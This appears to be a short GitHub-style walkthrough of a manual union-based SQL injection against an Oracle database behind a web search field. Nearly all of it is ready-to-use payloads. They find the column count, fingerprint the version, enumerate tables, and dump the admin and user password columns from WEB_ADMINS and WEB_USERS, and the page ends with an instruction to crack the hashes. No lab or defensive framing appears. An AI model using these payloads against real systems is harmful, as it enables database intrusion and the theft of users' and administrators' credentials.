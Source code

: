 | Syntax | Description |  
| ----------- | ----------- |  
| ' order by 1-- | no error message |  
| ' order by 5-- | error message |
| ' order by 4-- | error message |  
| ' order by 3-- | no error message |

So as of now we know that 3 is the last column which worked, let us prepare the union select statement

```
' union select 1,2,3--
```

Error Message:
>Something went wrong with the search: java.sql.SQLSyntaxErrorException: ORA-00923: FROM keyword not found where expected

>Unlike MySQL Oracle do not allow select statement without from clause. As we have prepared the Union select statement our next task is to check which column is getting printed that we can do by random testing each column one by one by printing the current database name

Testing for columns:
```SQL
' union select 1,2,3 from dual--
```

```SQL
' union select null,null,null from dual--
```

```SQL
' union select '1111',null,null from dual--
```

```SQL
' union select null,'2222',null from dual--
``` 

```SQL
' union select null,null,'3333' from dual--
```

```SQL
' union select user,null,null from dual--
``` 

Finding the version:
```SQL
' union select (select banner from v$version where rownum=1),null,null from dual--
``` 

Finding all table names:
```SQL
' union select table_name,null,null from all_tables--
```

Dumping columns of found table:
```SQL
' union select column_name,null,null from all_tab_columns where table_name='WEB_ADMINS'--
```

Dumping values of found columns:
```SQL
' union select ADMIN_ID||ADMIN_NAME||PASSWORD,null,null from WEB_ADMINS--
```

```SQL
' union select column_name,null,null from all_tab_columns where table_name='WEB_CONTENT'--
```

```SQL
' union select AUTHOR||CONTENT_ID||RELEASEYEAR||TITLE,null,null from WEB_CONTENT--
```

```SQL
' union select column_name,null,null from all_tab_columns where table_name='WEB_USERS'--
```

```SQL
' union select PASSWORD||USER_ID||USER_NAME,null,null from WEB_USERS--
```

Take hash value and crack!
